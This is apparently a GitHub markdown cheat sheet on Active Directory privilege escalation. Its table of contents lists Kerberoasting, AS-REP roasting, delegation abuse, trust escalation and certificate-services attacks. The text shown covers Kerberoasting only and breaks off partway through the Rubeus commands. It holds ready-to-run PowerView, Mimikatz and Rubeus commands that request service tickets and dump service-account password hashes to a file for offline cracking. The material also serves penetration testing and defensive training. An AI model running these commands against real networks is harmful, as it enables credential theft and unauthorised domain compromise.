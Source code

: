 ## AD Privilege Escalation

- [Kerberoasting](#kerberoasting)
  * [Using `Rubeus.exe`](#using--rubeusexe-)
  * [Using Mimikatz](#using-mimikatz)
- [Targeted Kerberoasting AS-REPs](#targeted-kerberoasting-as-reps)
  * [Enumerating accounts with Kerberos Preauth disabled](#enumerating-accounts-with-kerberos-preauth-disabled)
  * [Disable Kerberos Preauth](#disable-kerberos-preauth)
  * [ASREPRoast](#asreproast)
  * [Rubeus](#rubeus)
- [Targeted Kerberoasting Set SPN](#targeted-kerberoasting-set-spn)
- [Uncostrained Delegation](#uncostrained-delegation)
    + [Printer Bug](#printer-bug)
- [Constrained Delegation](#constrained-delegation)
  * [Resource Based RBCD](#resource-based-rbcd)
- [DNSAdmins](#dnsadmins)
- [Escalate Across Trusts](#escalate-across-trusts)
  * [Child to Parent using sIDHistory](#child-to-parent-using-sidhistory)
  * [Child to Parent Using krbtgt Hash](#child-to-parent-using-krbtgt-hash)
  * [Across Forest Using Trust Tickets](#across-forest-using-trust-tickets)
- [Across Domain Trusts AD Certificate Services](#across-domain-trusts-ad-certificate-services)
  * [ESC1](#esc1)
  * [ESC3](#esc3)
  * [ESC6](#esc6)

### Kerberoasting
---
Any domain user can request copies of all service accounts with their password hashes. This way a TGS can be requested for any SPN bound to a user for later cracking user password offline. 
- PowerView:
```powershell
# Standard AD User. Get Domain Users SPN. Users that are for services
C:> . .\PowerView.ps1
C:> Get-DomainUser -SPN
# We require to use the 'serviceprincipalname'

# Get every available SPN account, request a TGS and dump its hash
C:> Invoke-Kerberoast

# Request TGS for a single account
C:> Request-SPNTicket

# Export all tickets
C:> Invoke-Mimikatz -Command '"kerberos::list /export"'
```
- AD Module
```powershell
C:> Get-ADUser -Filter {ServicePrincipalName ne ""$null ""} -Properties ServicePrincipalName
```
#### Using `Rubeus.exe`
```powershell
# Get kerberos stats
C:> Rubeus.exe /stats

# Use Rubeus to request a TGS for <user>
C:> Rubeus.exe kerberoast /user:<user> /simple /outfile:hashes.txt

# Accounts supporting only RC4 (Gives errors!)
C:> Rubeus.exe kerberoast /stats /rc4opsec
C:> Rubeus.exe kerberoast /user:<user> /simple /rc4opsec

# Accounts supporting only AES for Domain
```